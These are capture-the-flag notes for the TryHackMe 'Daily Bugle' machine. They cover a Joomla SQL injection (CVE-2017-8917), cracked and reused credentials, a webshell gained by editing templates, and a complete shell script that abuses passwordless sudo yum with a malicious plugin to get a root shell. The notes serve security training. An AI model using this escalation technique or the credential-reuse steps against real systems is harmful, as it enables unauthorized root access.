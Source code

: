 # THM: Daily Bugle
# OS: Linux (Hard)

----

[NOTES]
- Joomla CMS at http://$ip/ is vulnerable to `CVE-2017-8917`
- Found Joomla password:
  - jonah:spiderman123
- MySQL creds:
  - root:nv5uz9r3ZEDzVjNu
- Found password reuse:
  - `MySQL:root | internal:jjameson` ~ nv5uz9r3ZEDzVjNu


Usernames:
  - jonah (Joomla)
  - jjameson (Linux Account)
  - root (MySQL)

Passwords:
  - nv5uz9r3ZEDzVjNu (MySQL|root) (System|jjameson)
  - spiderman123 (Joomla|jonah)

----

## Foothold

[WEB]
**Port -> 80**
- Get version information from `http://$ip/README.txt`
- Found CVE (SQLi):
  - CVE-2017-8917
  - 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
  Hash cracked: spiderman123

- Get webshell from modifying Joomla templates.

## PrivEsc
**apache -> jjameson**
- Credentials for jjameson was found on `/var/www/html/configuration.php`
- Password reuse was found:
  - User `apache` can escalate their privileges to `jjameson` by using `su`
    - User: jjameson
    - Pass: nv5uz9r3ZEDzVjNu

**jjjameson -> root**
- We can run yum as root with no pass, this is dangerous since we can create malicious plugins/packages. And get root.

```shell
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
